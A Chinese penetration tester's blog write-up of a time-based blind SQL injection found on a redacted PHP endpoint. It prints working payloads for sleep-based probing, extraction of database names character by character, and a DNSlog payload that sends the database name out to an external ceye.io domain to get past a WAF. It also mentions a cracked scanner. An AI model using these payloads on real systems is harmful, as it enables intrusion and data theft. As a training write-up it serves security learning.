 ```yaml
---
title: 记一次基于时间的SQL盲注
date: 2019-08-20 23:04:38
tags: 实战经验
categories: 实战渗透
---
```

## 废话
&#160; &#160; &#160; &#160;最近一阵子在上家公司天天加班，都没时间记录学习的内容，所以近几个月来一直没有发表什么文章，直接结果就是圈子账号被办了。

[![mYjQ2t.th.jpg](https://s2.ax1x.com/2019/08/20/mYjQ2t.th.jpg)](https://imgchr.com/i/mYjQ2t)

&#160; &#160; &#160; &#160;最近才刚换工作到上海出差，刚好今天遇到一个基于时间的sql盲注就记录一下吧，很多时候可能遇到了，直接丢sqlmap跑不出来就放弃了。但是今天亲自研究了一下才发现，sqlmap有时候对于盲注也是无奈的。
<!--more-->
## 正文
&#160; &#160; &#160; &#160;废话不多说了，事情的经过是这样的，一个项目，在测试系统的时候打开url一看，就一个静态页面，其他啥玩意儿都没有，第一时间想的就是：

[![mYvueU.th.jpg](https://s2.ax1x.com/2019/08/20/mYvueU.th.jpg)](https://imgchr.com/i/mYvueU)

&#160; &#160; &#160; &#160;然后，抱着工作求稳的心态，上了一波Linux最新版本的AWVS12破解版。丢进去就去搞其他系统去了。等到中午的时候回来一看，出现了一个这玩意儿：

[![mYv5fs.th.png](https://s2.ax1x.com/2019/08/20/mYv5fs.th.png)](https://imgchr.com/i/mYv5fs)

&#160; &#160; &#160; &#160;SQL盲注一枚，然后直接就丢sqlmap去了，但是这个在sqlmap里面跑的结果是啥都没出来的，然后因为是外网，还有IPS/WAF的存在，导致没有任何结果，无奈准备放弃，后来同事过来看了一眼，说要不试试？好吧，就开始了漫长的验证之旅。
## 漏洞验证
&#160; &#160; &#160; &#160;根据AWVS的payload在火狐里面测试了一波，确实存在注入：
payload：

`
http://xxx.xxx.xxxx/aaa/bbb/ccc/ddd/insert.php?dept=0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z
`

改变payload判断数据库名长度：

`
http://xxx.xxx.xxxx/aaa/bbb/ccc/ddd//insert.php?dept=0'XOR(if(length(database())=8,sleep(5),0))XOR'q
`

&#160; &#160; &#160; &#160;这里解释一下，第一个payload，是AWVS给出的测试payload，当你改变sleep（）的时间，响应的时间也会改变,这一句if(now()=sysdate(),sleep(0),0)的意思是，如果当前时间等于系统时间，则马上执行，否则输出0，也就是无结果，当我们改变这个sleep()的时间长短时，这个执行时间也会跟着改变，比如改为if(now()=sysdate(),sleep(5),0)也就是延迟5秒执行。所以，我们可以以此判断出这个基于时间的盲注是存在的。接着第二个payload意思就更加明显了。也就是当数据库名长度等于8的时候，延迟5秒执行，刚好这里我测试出来就是8，下一步就是判断数据库名字了。
### 补充一个重点
&#160; &#160; &#160; &#160;上面有个重点讲掉了，sleep()这个函数在数据库中，如果查询语句不成立的话，它就会马上返回结果，不加以执行，但是如果查询语句成立，这个sleep()延时函数才生效，如果前面的查询语句不成立或者所查询的数据没有，那么这个sleep()函数就不会执行，直接返回结果。所以这个sleep()函数在payload中和前面的查询语句相当于一个and的关系，也可以理解为if()这个判断，判断前面的查询语句成立，执行延迟，否则直接返回结果。还有一点就是，基于时间的盲注或者是基于布尔的盲注在页面上面看起来是没有任何变化的，只有根据时间的延迟和返回页面的正常不正常来判断。（此段补充，老鸟直接略过。。。。。。。。）

[![mYx8Ag.th.png](https://s2.ax1x.com/2019/08/20/mYx8Ag.th.png)](https://imgchr.com/i/mYx8Ag)

## 判断数据库名
&#160; &#160; &#160; &#160;直接上payload：

`
http://xxx.xxx.xxxx/aaa/bbb/ccc/ddd//insert.php?dept=0'XOR(if(ascii(substr(database(),1,1))=119,sleep(5),0))XOR'q
`

这里面的ascii(substr(database(),1,1))=119的意思是，判断数据库名字的第一个字母是不是为ascii表里的119也就是w，这里判断出来刚好是，延迟了五秒执行。同样的道理，一步步慢慢判断。当然，到这里我们已经可以证明存在基于时间的sql盲注了，直接用工具获取数据库名，我这里用到的是DNSlog来获取的，原因是因为这个网站存在waf，一直测试下去可能会封你的IP，但是DNSlog可以理解为一个IP代理池，也就是DNSlog注入。有一个免费的DNSlog平台，用telnet404账号登录：[http://ceye.io/](http://ceye.io/)
注册后到控制面板会给你一个二级域名：xxx.ceye.io,当我们把注入信息放到三级域名那里，后台的日志会记录下来

[![mtFcXd.th.png](https://s2.ax1x.com/2019/08/21/mtFcXd.th.png)](https://imgchr.com/i/mtFcXd)

然后再构造一个payload获取数据库名：

`
http://xxx.xxx.xxxx/aaa/bbb/ccc/ddd//insert.php?dept=0'XOR(select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')))XOR'q
`

如图所示：

[![mtkGUP.th.png](https://s2.ax1x.com/2019/08/21/mtkGUP.th.png)](https://imgchr.com/i/mtkGUP)

如果还不明白DNSlog注入是怎么回事，可以看看这篇帖子[https://www.cnblogs.com/afanti/p/8047530.html](https://www.cnblogs.com/afanti/p/8047530.html)
## 总结
&#160; &#160; &#160; &#160;很多时候，其实漏洞就在那里摆着，只是自己姿势不够而已，本文也只是自己在记载实战过程中遇到的问题和与同事沟通请教后的获得，记录一下，老鸟略过。
